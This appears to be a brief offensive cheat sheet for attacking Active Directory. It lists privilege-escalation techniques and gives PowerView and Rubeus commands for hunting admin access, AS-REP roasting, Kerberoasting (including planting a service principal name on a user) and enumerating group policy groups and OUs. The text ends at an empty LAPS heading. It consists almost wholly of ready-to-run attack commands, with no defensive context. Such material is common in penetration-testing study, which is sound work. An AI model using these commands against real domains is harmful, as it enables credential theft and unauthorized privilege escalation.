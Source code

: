 # Active Directory attacks

## Privilege Escalation

+ PowerUp
+ BeRoot
+ Privesc

+ Missing patches
+ AutoLogon passwords
+ AlwaysInstallElevated
+ Misconfigured services
+ DLL hijacking
...

## User Hunting

```
Find-LocalAdminAccess -Verbose
Find-WMILocalAdminAccess -Verbose
Find-PSRemotingLocalAdminAccess -Verbose
Find-DomainUserLocation -Verbose
```

## Asreproast

```
Get-DomainUser -PreauthNotRequired
Rubeus.exe asreproast
```

## Kerberoast

```
Get-DomainUser -SPN
Rubeus.exe kerberoast
Set-DomainObject -Identity USER -Set @{serviceprincipalname='DOMAIN/SPN'}
```

## Restricted Groups/OUs

```
Get-DomainGPOLocalGroup
Get-NetGPOGroup
(Get-DomainOU -Identity IDENTITY).distinguishedname | %{Get-DomainComputer -SearchBase $_} | select name
(Get-DomainOU -Identity IDENTITY).gplink
Get-DomainGPO -Identity '{FCE16496-C744-4E46-AC89-2D01D76EAD68}'
```

## LAPS
